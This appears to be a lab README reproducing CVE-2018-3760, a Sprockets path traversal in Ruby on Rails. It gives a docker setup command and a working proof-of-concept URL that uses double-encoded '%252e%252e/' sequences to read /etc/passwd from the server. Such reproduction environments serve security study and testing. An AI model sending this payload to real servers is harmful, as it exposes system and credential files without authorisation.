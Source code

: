 # Ruby On Rails Path Traversal Vulnerability（CVE-2018-3760）

[中文版本(Chinese version)](README.zh-cn.md)

Ruby On Rails is a well-known Ruby Web development framework, which uses Sprockets as a static file server in development environment. Sprockets is a Ruby library that compiles and distributes static resource files.

There is a path traversal vulnerability caused by secondary decoding in Sprockets 3.7.1 and lower versions. An attacker can use `%252e%252e/` to access the root directory and read or execute any file on the target server.

Reference links：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## Environment setup

Enter the following command：

```
docker compose up -d
```

Visit `http://your-ip:3000` and you'll see the welcome page.

## POC

It will give an error by visiting `http://your-ip:3000/assets/file:%2f%2f/etc/passwd` directly, as the file `/etc/passwd` is not in the allowed directory.

![](1.png)

We can get a list of allowed directories by the error page. Just select one of them, such as `/usr/src/blog/app/assets/images`, then use `%252e%252e/` to jump to the parent directory, and finally read the file `/etc/passwd`:

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](2.png)
